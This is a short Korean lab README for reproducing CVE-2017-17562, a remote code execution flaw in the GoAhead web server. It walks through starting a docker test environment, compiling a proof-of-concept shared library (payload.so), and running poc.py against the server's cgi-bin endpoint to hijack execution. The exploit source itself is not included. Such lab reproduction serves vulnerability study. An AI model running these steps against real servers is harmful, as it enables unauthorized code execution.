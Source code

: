 
## 환경 구성 및 실행
docker를 실행하여 테스트 환경을 실행
     
     docker compose up -d

http://your-ip:8080/에 접속하여 goahea 기본 페이지 확인

poc.c를 gcc로 컴파일 진행
     
     gcc -s -shared -fPIC ./poc.c -o payload.so


poc.py 스크립트를 사용하여 악성 데이터 패킷을 보내고 취약점을 재현

     python3 poc.py http://your-ip:8080/cgi-bin/index payload.so

하이재킹 코드가 정상적으로 실행된 화면







## 참고
<https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562>
<https://blog.csdn.net/axdnoob/article/details/125859127>
